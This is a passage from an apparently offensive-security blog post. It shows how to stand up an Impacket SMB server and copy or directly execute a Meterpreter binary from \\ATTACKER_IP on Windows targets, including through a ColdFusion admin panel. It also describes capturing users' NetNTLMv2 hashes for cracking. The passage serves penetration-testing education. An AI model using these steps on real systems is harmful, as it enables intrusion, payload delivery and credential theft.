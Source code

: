 ### Setting up the Server

Trying to get Samba set up and configured properly on Linux is a pain. You have to configure authentication, permissions, etc and it’s quite frankly way overkill if I just want to download one file. Now Samba an actually do some [really](http://passing-the-hash.blogspot.com/2016/06/nix-kerberos-ms-active-directory-fun.html) [cool](http://passing-the-hash.blogspot.com/2016/06/im-pkdc-your-personal-kerberos-domain.html) stuff when you configure it to play nicely with Windows AD, but most of the time I just want a super simple server up and running that accepts any authentication and serves up or accepts files.

Enter `smbserver.py`, part of the [Impacket](https://github.com/CoreSecurity/impacket) project. Maybe one day I’ll write a blogpost without mentioning Impacket, but that day is not today.  
To launch a simple SMB server on port 445, just specify a share name and the path you want to share:

```text
#Older versions of Parrot
python smbserver.py -smb2support ROPNOP /root/shells

#Newer versions of Parrot
impacket-smbserver ROPNOP /root/shells
```

The python script takes care of all the configurations for you, binds to 445, and accepts any authentication. It will even print out the hashed challenge responses for any system that connects to it.

In one line we’ve got an SMB share up and running. You can confirm it with `smbclient` from Linux or net view in Windows

### Copying the Files

Since Windows handles UNC paths, you can just treat the `ROPNOP` share as if it's just a local folder from Windows. Basic Windows file commands like `dir`, `copy`, `move`, etc all just work:

`dir \\ATTACKER_IP\root\shells  
copy \\ATTACKER_IP\root\shells\met8888.exe`

If you look at the output from `smbserver.py`, you can see that every time we access the share it outputs the NetNTLMv2 hash from the current Windows user. You can feed these into John or Hashcat and crack them if you want \(assuming you canâ€™t just elevate to System and get them from Mimikatz\)

### **Executing files from SMB**

Because of the way Windows treats UNC paths, it's possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

This proved incredibly useful during another ColdFusion exploit I came across. After gaining access to an unprotected ColdFusion admin panel, I was able to configure a “system probe” to fire when a test failed. It let me execute a program as a failure action, and I just used a UNC path to execute a Meterpreter payload hosted from my Kali machine.

## DOWNLOAD DATA W/ POWERSHELL

Perhaps the greatest strength of PowerShell is it's foundation on the .NET framework. The .NET framework enables almost unlimited possibilites inside the scripting realm. This blessing can equally be a curse as things can get complicated. Fast.
